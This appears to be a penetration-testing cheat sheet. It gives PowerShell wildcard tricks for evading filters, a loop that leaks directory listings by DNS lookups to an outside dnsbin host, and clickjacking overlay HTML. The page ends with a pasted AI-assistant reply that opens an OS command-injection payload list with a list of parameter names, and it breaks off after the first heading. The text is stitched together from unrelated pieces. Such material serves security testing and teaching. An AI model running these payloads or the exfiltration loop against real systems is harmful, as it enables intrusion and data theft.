 ### Bypass With Wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```
### Dns Based Data Exfiltration

Based on the tool from [HoLyVieR/dnsbin](https://github.com/HoLyVieR/dnsbin), also hosted at [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)

1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
  ```powershell
  for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
  ```

Online tools to check for DNS based data exfiltration:

- http://dnsbin.zhack.ca/
- https://app.interactsh.com/
- Burp Collaborator

---
Click-Jacking

```
<iframe src="http://target site" security="restricted"></iframe>
```
```
<div style="opacity: 0; position: absolute; top: 0; left: 0; height: 100%; width: 100%;">
  <a href="malicious-link">Click me</a>
</div>
```
Absolutely, Anvesh! Here's a **complete OS Command Injection test case list with sample payloads**, structured for clarity and direct integration into your cheat sheets, automation scripts, or Burp Suite workflows. This aligns with your GitHub methodology and emphasizes both detection and exploitation vectors.

---

## 🧨 OS Command Injection — Test Cases with Payloads

> cmd, command, execute, exec, run, shell, process, task, action, operation, script, script_path, script_name, filename, filepath, file, path, dir, directory, target, ip, host, hostname, ping, traceroute, nslookup, dns, lookup, port, interface, netstat, subnet, mask, gateway, route, user, username, account, name, key, token, id, uid, gid, group, env, env_var, variable, config, config_path, config_file, backup, restore, upload, download, log, log_path, log_file, debug, trace, monitor, scan, scanner, tool, utility

---

### **1. Basic Command Injection via GET Parameter**
- Inject shell commands using separators like `;`, `&&`, `|`.
